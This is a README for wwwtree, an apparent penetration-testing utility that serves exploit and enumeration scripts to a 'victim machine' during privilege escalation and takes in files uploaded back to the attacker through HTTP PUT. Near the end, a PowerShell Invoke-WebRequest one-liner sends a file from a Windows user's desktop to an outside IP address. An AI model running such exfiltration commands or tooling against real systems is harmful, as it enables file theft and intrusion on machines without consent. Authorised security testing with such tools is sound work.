 # wwwtree
[![Python](https://img.shields.io/badge/Python-%E2%89%A5%203.x-yellow.svg)](https://www.python.org/) 
<img src="https://img.shields.io/badge/Developed%20on-kali%20linux-blueviolet">
[![License](https://img.shields.io/badge/License-MIT-red.svg)](https://github.com/t3l3machus/wwwtree/blob/main/LICENSE)
<img src="https://img.shields.io/badge/Maintained%3F-Yes-96c40f">

## Purpose
A utility for quickly and easily locating, web hosting and transferring resources (e.g., exploits/enumeration scripts) from your filesystem to a victim machine during privilege escalation.

### Preview
![image](https://user-images.githubusercontent.com/75489922/204158750-90ad250c-7787-4fde-92c3-99dae65e5444.png)

## Description
wwwtree does the following:
 - hosts a specified root directory and prints the contents in a tree-like format. Every file is translated to it's equivalent server URL path so you can quickly copy it and use a web client to transfer it to the victim.
 - Filters out files that contain specific substrings based on user provided keywords (use `-k` to parse comma seperated values). Handy for quickly locating resources located in deep and populated directory structures.
 - Automatically hides from the output files and folders that are most likely not in the scope of enumeration / exploitation (e.g., txt, yml, docx files or .git directories). You can control this behaviour by editing the list variables `hide_extensions` and `hide_dirs` in the source.
 - The wwwtree python http server handler supports PUT requests and by default saves files in `/tmp` (you can change that in the source). You can use it to transfer files from the victim to the attacker machine.


## Installation & Usage
```
git clone https://github.com/t3l3machus/wwwtree
cd ./wwwtree
pip3 install -r requirements.txt
chmod +x wwwtree.py

wwwtree.py [-h] -r ROOT_PATH -i INTERFACE [-l LEVEL] [-p PORT] [-k KEYWORDS] [-A] [-q]
```

### PUT Requests
I've noticed that curl on Windows seems to work improperly when trying to transfer large files. Powershell's `Invoke-WebRequest` works much better:
```
powershell -c "invoke-webrequest -method PUT -headers @{'Content-Type'='application/vnd.openxmlformats-officedocument.spreadsheetml.sheet'} -usebasicparsing -uri http://192.168.111.135/testt -body (get-content C:\Users\pxart\Desktop\some_file.xlsx)"
```
